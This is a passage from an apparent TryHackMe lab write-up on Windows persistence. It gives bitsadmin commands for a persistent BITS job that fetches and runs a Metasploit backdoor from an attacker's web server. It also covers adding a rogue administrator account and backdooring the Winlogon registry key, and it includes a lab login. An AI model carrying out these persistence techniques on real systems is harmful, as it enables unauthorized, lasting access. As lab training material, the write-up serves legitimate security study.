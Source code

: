 NULL is used at the end of the syntax because our backdoor
doesn't have any additional parameters.  
Since we want our backdoor to be persistent we'll set a retry delay for the job.

```bash
...Roaming> bitsadmin /SetMinRetryDelay backdoor 30
```

Finally, we'll start/resume the job.

Note:
In order to work you have to have a webserver (i used apache) running so
BITS can download the backdoor and Metasploit listening for connections.

To execute the job type: `bitsadmin /resume`.
As can be observed in the below image we received the second connection.

```bash
...Roaming> bitsadmin /resume backdoor
```

Note: BITS is very unstable and can and might give you just temporary persistence.

## High privilege user persistence

You will find a few things similar to the ones used for the low privileged user persistence.

Log in to the system using the following credentials: `Administrator:Tryhackme123!`

Download again and execute the backdoor you earlier created.

### Creating another admin user

Drop into a shell and create a new user. The syntax is:

```bash
net user /add <USER> <PASSWORD>.
```

Now just add the username to the local administrators' group.

```bash
net localgroup Administrators Backdoor /add
```

By checking the users that are in the Administrators' group we
can see our newly created and added user:

```bash
net localgroup Administrators
```

### Editing the registries

We can backdoor the Winlogon so when a user logs in our backdoor will get executed.

The registry used is:

```bash
HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
```
